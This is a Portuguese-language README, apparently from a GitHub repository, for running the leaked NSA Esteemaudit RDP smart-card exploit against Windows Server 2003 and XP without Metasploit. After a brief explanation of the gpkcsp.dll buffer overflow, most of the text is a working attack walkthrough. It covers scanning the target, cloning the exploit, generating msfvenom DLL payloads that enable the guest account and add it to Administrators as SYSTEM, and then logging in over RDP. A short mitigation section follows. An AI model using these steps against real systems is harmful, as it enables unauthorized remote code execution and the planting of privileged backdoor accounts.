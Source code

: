 # Esteemaudit without Metasploit - A Windows 2003 RDP Zero Day Exploit

Explorando Remote Desktop do Windows Server 2003 com o exploit Esteemaudit (sem Metasploit) e obtendo RCE (Remote Code Execution).

**REPOSITÓRIO CRIADO PARA FINS DIDÁTICOS!**

Esta é uma portabilidade do Esteemaudit RDP Exploit vazado do Equationgroup (NSA). A vulnerabilidade explorada por este ataque está relacionada à autenticação de Smart Card, usada ao fazer logon no sistema por meio do serviço RDP. Os sistemas afetados são Windows Server 2003 SP1, SP2 e Windows XP SP0, SP1, SP3.

O logon do Smart Card é suportado por todas as versões do Windows após o Windows 2000. Ele contém um chip que armazena as informações de logon do usuário, juntamente com a chave privada e a chave de certificado pública. Ao inseri-lo em um leitor de cartão inteligente conectado ao computador e digitar um número de identificação pessoal (PIN), o usuário pode fazer login com segurança no sistema Windows. Quando o logon ocorre por meio do serviço RDP, a máquina remota que executa o serviço RDP se comunica com o computador local, que se conecta ao leitor de cartão inteligente, solicita as informações no cartão inteligente e verifica o PIN.

Esta vulnerabilidade está localizada na função "MyCPAcquireContext()" em "gpkcsp.dll", que é chamada por "winlogon.exe" na nova sessão do Windows. A função "MyCPAcquireContext()" é usada para configurar o contexto do Windows Cryptographic Service Providers (CSP). Ele lê os dados do Smart Card e define o valor dos campos da estrutura de contexto CSP. Se os dados lidos do cartão inteligente forem muito grandes, o buffer de campo usado pela estrutura de contexto CSP estoura e sobrescreve outro campo, permitindo a execução de código arbitrário.

**Para realizar o teste foi utilizado o Kali Linux 2022.3 como máquina atacante e Windows Server 2003 (x86) como máquina alvo.**

Identifique as possíveis vulnerabilidades no Remote Desktop do Windows Server:
```
nmap -v --script vuln -p3389 -Pn 172.16.1.110
```
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
```

**Sabendo que é vulnerável, vamos preparar o Kali para realizar a exploração.**

No Kali, instale as dependências:
```
dpkg --add-architecture i386
apt-get update && apt-get install wine32
```

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks
```
apt-get install libwine wine wine32 winetricks
```

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
Microsoft Windows 6.1.7601 (4.0.2)

Z:\>exit
```

Baixe o exploit e copie os arquivos:
```
git clone https://github.com/caique-garbim/Esteemaudit-without-Metasploit
cd Esteemaudit-without-Metasploit/
cp -r esteemaudit/ /usr/share/
cd /usr/share/esteemaudit
```

No arquivo **Esteemaudit-2.1.0.xml**, na linha nº 5 é necessário informar o IP do Windows Server e a porta TCP do serviço RDP (3389 é o padrão):

![image](https://user-images.githubusercontent.com/76706456/186801171-388f3d39-a25c-412b-b868-d70aa20815ba.png)

**Vamos gerar os payloads com os comandos que desejamos executar no Windows Server:**

Neste exemplo, iremos habilitar o usuário convidado, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user guest /active:yes" -f dll > /root/.wine/drive_c/shell.dll
```
*(Sabendo que o comando será executado como NT AUTHORITY\SYSTEM podemos realizar tarefas administrativas)*

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Em seguida vamos adiciona-lo ao grupo de Administradores, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD='net localgroup "Administrators" guest /add' -f dll > /root/.wine/drive_c/shell.dll
```

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Por fim, vamos nos conectar ao RDP utilizando o usuário guest:
```
rdesktop 172.16.1.110 -u guest -p ''
```

![image](https://user-images.githubusercontent.com/76706456/186801609-9c57de87-1d2c-42b5-9a74-c7e44c0d178f.png)

# Como mitigar

1 - Execute gpedit.msc

2 - Vá em Computer Configuration\Administrative Templates\Windows Components\Terminal Services\Client/Server data redirection\

3 - Habilite "Do not allow Smart Card device redirection"

4 - Reinicie o servidor

# Referências

https://github.com/BlackMathIT/Esteemaudit-Metasploit

https://www.fortinet.com/blog/threat-research/deep-analysis-of-esteemaudit
